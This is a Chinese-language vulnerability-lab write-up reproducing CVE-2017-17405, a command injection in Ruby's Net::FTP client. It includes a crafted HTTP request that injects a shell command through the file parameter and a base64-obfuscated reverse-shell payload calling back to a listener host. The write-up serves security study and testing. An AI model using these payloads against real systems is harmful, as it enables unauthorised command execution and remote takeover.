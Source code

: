 # Ruby Net::FTP 模块命令注入漏洞 CVE-2017-17405

## 漏洞描述

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

Vulhub编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

![image-20220228221133067](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282211126.png)

然后即可开始利用漏洞。注入命令`|touch${IFS}awesome_poc.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：

```
GET /download?uri=ftp://101.42.237.61:2121/&file=|touch${IFS}awesome_poc.txt HTTP/1.1
Host: your-ip:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20220228221337350](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282213424.png)

然后进入docker容器内，可见awesome_poc.txt已被创建：

![image-20220228221433232](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282214280.png)

执行反弹shell的命令，成功反弹：

```
|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo}|{base64,-d}|{bash,-i}'
```

![image-20220228221216580](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282212651.png)

> kali中反弹失败，vps反弹成功，可能是因为kali的默认shell为zsh

